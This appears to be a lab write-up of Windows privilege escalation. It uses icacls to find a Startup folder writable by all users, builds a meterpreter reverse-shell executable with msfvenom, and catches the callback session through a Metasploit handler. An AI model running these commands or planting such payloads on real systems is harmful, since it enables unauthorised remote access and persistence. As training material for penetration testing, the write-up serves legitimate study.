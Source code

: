 
When the machine is boot up, there are some applications run during the startup process. We can check whether there are any startup applications that we have permission to modify. We are going to use a tool call `icacls.exe` to check for these permissions.

```PowerShell
C:\Users\user>icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup 
BUILTIN\Users:(F)
TCM-PC\TCM:(I)(OI)(CI)(DE,DC)
NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
BUILTIN\Administrators:(I)(OI)(CI)(F)
BUILTIN\Users:(I)(OI)(CI)(RX)
Everyone:(I)(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
```

We see `BUILTIN\Users` have Full Access `(F)` to the startup directory. We can use `msfvenom` as usual to create a payload to generate a reverse shell and put it in this directory.

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o startup.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: startup.exe
```

When an administrator logs in, we catch the meterpreter session and gain privileged shell.

```bash
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.4.72.115:4444 
[*] Sending stage (177734 bytes) to 10.10.97.83
[*] Meterpreter session 1 opened (10.4.72.115:4444 -> 10.10.97.83:49321) at 2025-07-15 13:02:16 +1000

meterpreter > getuid 
Server username: TCM-PC\TCM
```
